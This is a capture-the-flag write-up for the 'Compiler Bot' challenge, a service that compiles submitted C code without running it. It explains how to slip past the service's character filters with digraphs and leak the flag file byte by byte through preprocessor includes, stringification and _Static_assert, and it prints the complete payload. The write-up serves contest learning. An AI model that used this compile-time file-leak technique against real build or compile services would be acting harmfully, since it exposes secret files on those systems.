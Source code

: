 # Compiler Bot

If Compiler Explorer ( https://godbolt.org ) is too bloated for you, you can always rely on our excellent compiler bot to tell you whether you screwed up while coding your latest exploit.
And since `we never actually run your code`, there’s no way for you to hack it!

**Total solves:** 30

**Score:** 256

**Categories:** Miscellaneous

## Problem

The service receives a base64 encoded piece of code written in C, compiles the code with `clang -x c -std=c11 -Wall -Wextra -Werror -Wmain -Wfatal-errors -o /dev/null -` and the compiled code is redirected to `/dev/null`. So our input is never executed. But we have the return if the `compilation was successfully or not`. So the attack need to be done in the `preprocessor`. We know the location of the flag.

## Solution

**TL;DR:** The key to solve this problem is to use  `_Static_assert` to check the value of the stringifyed `%:include` of the flag byte by byte.

The program receives a base64 string, decode it and removes every `#`, `{`, `}`. Luckily we can use 
[digraphs](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs), to bypass the substitutions. So `{`, `}` becomes `<%`, `%>` and `#` becomes `%:`.
Now we can use `includes`, `pragmas` and everything the preprocessor has to offer.

One way to solve this problem is to use [_Static_assert](https://stackoverflow.com/questions/3385515/static-assert-in-c) and [strncmp](www.cplusplus.com/reference/cstring/strncmp/) to check if the value of the included flag is valid or not. Verifying byte by byte, varying the strncmp length, we can bruteforce all possible values char by char.
In plain C our actual idea of payload would look like this:
```
#include<string.h>
int main()
{
    _Static_assert(strncmp("included_flag", "attempts", length_of_attempt) == 1, "");
}
```
Now there is a trick to [stringify](https://gcc.gnu.org/onlinedocs/gcc-4.8.5/cpp/Stringification.html) our included text in the preprocessor to do the comparison. We know the first chars of the flag so we make a macro replacement to force the preprocessor to interpret the included text as a string.
```
#define str(x) %:x
#define hxp str(
```
When the preprocessor find `hxp` it will replace with `str(` and interpret everything inside `str(` as a string. Phew, almost there.

Now we just need to put our defines outside the main function, to do this we just close the main and start another function with any name with our _Static_assert inside this function.
```
    int main()
    {}
    #define str(x) %:x
    #define hxp str(
    #include<string.h>
    void any_name(){
        _Static_assert(strncmp(
            %:include "flag"
            ), "\x7B", 1) == 1, "lol");
        )
    }
```
Since our code is inserted inside the main function we need to close main and declare our function, replacing every `#`, `{`, `}` as explained above.
Our final payload would look like this.

```
%>
    %:define str(x) %:x
    %:define hxp str(
    %:include <string.h>
    void any_name()<%
    _Static_assert(strncmp(
      %:include "flag"
    ),"\x7B", 1) == 1,"lol");
```
**Note:** the string comparison is made in hex, because tha chars `{`, `}` are replaced.
**Note:** the first `%>` is closing main

We made a [script](compilerbot.py) to bruteforce the flag.



